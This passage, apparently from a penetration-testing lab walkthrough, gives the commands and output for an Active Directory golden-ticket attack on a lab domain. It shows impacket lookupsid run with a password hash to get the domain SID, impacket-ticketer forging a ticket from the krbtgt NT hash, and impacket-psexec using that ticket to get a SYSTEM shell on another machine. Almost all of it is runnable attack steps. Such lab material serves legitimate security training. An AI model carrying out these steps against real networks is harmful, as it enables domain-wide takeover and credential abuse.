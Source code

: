 ### 5.1.2. Uplookup domain SID

```console
root@kali:~# impacket-lookupsid -hashes 00000000000000000000000000000000:e19ccf75ee54e06b06a5907af13cef42 lab.vx/domainadmin@192.168.17.11
⋮
[*] Domain SID is: S-1-5-21-2009310445-1600641453-2559099802
⋮
```

### 5.1.3. Create golden ticket

```console
root@kali:~# impacket-ticketer -nthash 09320ee4ca4f627b183bba1335d1c0c7 -domain-sid S-1-5-21-2009310445-1600641453-2559099802 -domain lab.vx administrator
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for lab.vx/administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncAsRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncASRepPart
[*] Saving ticket in administrator.ccache
```

### 5.1.4. Use the golden ticket to connect to **any** domain machine

The `-k` option of `impacket-psexec` means use Kerberos authentication; it grabs credentials from ccache file specified in `$KRB5CCNAME` environment variable

```console
root@kali:~# export KRB5CCNAME=administrator.ccache

root@kali:~# impacket-psexec lab.vx/administrator@svr.lab.vx -k -no-pass -target-ip 192.168.17.12 -dc-ip 192.168.17.11
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 192.168.17.12.....
[*] Found writable share ADMIN$
[*] Uploading file ZnEsDRVp.exe
[*] Opening SVCManager on 192.168.17.12.....
[*] Creating service ORJv on 192.168.17.12.....
[*] Starting service ORJv.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.1129]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```
